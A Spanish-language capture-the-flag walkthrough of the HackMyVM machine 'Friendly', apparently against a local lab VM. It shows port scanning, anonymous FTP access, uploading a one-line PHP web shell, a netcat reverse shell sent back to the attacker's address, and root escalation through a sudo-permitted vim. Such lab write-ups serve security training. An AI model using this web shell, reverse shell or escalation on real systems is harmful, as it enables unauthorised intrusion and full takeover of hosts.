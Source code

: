 # Friendly HackMyVM

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.36

## Enumeracion

Realizamos unos scaneos rapidos a la maquina con nmap

```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.0.2.36
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-29 16:58 EDT
Nmap scan report for 10.0.2.36
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
MAC Address: 08:00:27:A2:9F:C0 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.95 seconds
```
Tenemos el puerto 21 y 80 abierto, entonces lanzamos un scaneo pero ahora mandando los scripts que tiene nmap
```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -A -p 21,80 10.0.2.36
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-29 16:58 EDT
Nmap scan report for 10.0.2.36
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.54 (Debian)
MAC Address: 08:00:27:A2:9F:C0 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.24 ms 10.0.2.36

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds
```
## FTP
El puerto 21 corre FTP y tiene acceso anonimo asi que nos conectamos
```bash
❯ ftp 10.0.2.36       
Connected to 10.0.2.36.
220 ProFTPD Server (friendly) [::ffff:10.0.2.36]
Name (10.0.2.36:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: anonymous
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -la
229 Entering Extended Passive Mode (|||48997|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 .
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 ..
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
226 Transfer complete

ftp> get index.html
local: index.html remote: index.html
229 Entering Extended Passive Mode (|||20326|)
150 Opening BINARY mode data connection for index.html (10725 bytes)
100% |*****************************************| 10725      196.69 MiB/s    00:00 ETA
226 Transfer complete
10725 bytes received in 00:00 (15.66 MiB/s)
```

Descargando el index.html en efecto solo era codigo html que era el mismo que el que tenia la pagina. Visto esto pense que quiza el FTP estaba corriendo de alguna manera la web. 

## Reverse shell

Entonces intente subir un archivo para ver si puedo lograr colar archivos en la web. 

```php
❯ cat shell.php     
───────┬────────────────────────────────────────────
       │ File: shell.php
───────┼────────────────────────────────────────────
   1   │ <?php system($_GET['cmd']) ?>
───────┴────────────────────────────────────────────
```

Me cree un archivo php e intento subirlo
```bash
ftp> put shell.php 
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||15779|)
150 Opening BINARY mode data connection for shell.php
100% |**************************|    30      813.80 KiB/s    00:00 ETA
226 Transfer complete
30 bytes sent in 00:00 (76.29 KiB/s)
```

Ahora probamos si nos deja realizar ejecucion de comandos

```bash
❯ curl "http://10.0.2.36/shell.php?cmd=id" 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ahora si entonces nos realizamos un reverse shell

```bash
❯ urlencode 'nc 10.0.2.4 443 -e /bin/bash' 
nc%2010.0.2.4%20443%20-e%20%2Fbin%2Fbash
```

```bash
❯ curl "http://10.0.2.36/shell.php?cmd=nc%2010.0.2.4%20443%20-e%20/bin/bash"
```
Nos ponemos en escucha
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.36] 33334
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nos mejoramos la shell a una TTY con los siguientes comandos
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@friendly:/var/www/html$ ctrl+z
zsh: suspended  nc -lvnp 443
                                                                                                
❯ stty raw -echo;fg      
[1]  + continued  nc -lvnp 443 (doble enter)

www-data@friendly:/var/www/html$ export TERM=xterm SHELL=bash
www-data@friendly:/var/www/html$ 
```
## Enumeracion dentro de la maquina
Ahora toca ver la manera de subir de privilegios. Asi que haciendo un poco de enumeracion vemos que podemos ejecutar vim como cualquier usuario
```bash
www-data@friendly:/var/www/html$ sudo -l
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```
## Escalando privilegios
Buscando en Gftobins encontramos: https://gtfobins.github.io/gtfobins/vim/
```bash
www-data@friendly:/home/RiJaba1$ sudo -u root /usr/bin/vim -c ':!/bin/sh'
```

Y de esta manera obtenemos una shell como root

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

### user flag

```bash
root@friendly:/home/RiJaba1# cat user.txt
***********************b4475acd6
```

Ahora para la flag de root, Rijaba nos deja una ultima tarea

A la hora de leer la flag dentro de las carpeta ``/root``   
```bash
root@friendly:/home/RiJaba1# cd /root
root@friendly:~# cat root.txt
Not yet! Find root.txt.
```

### root flag

Entonces ahora tendremos que buscar otro archivo que se llame ``root.txt`` asi que para esto emplearemos el comando de ``find``

```bash
root@friendly:~# find / -name root.* 2>/dev/null
/var/log/apache2/root.txt
/root/root.txt

root@friendly:~# cat /var/log/apache2/root.txt
***********************4d3e28d2f
```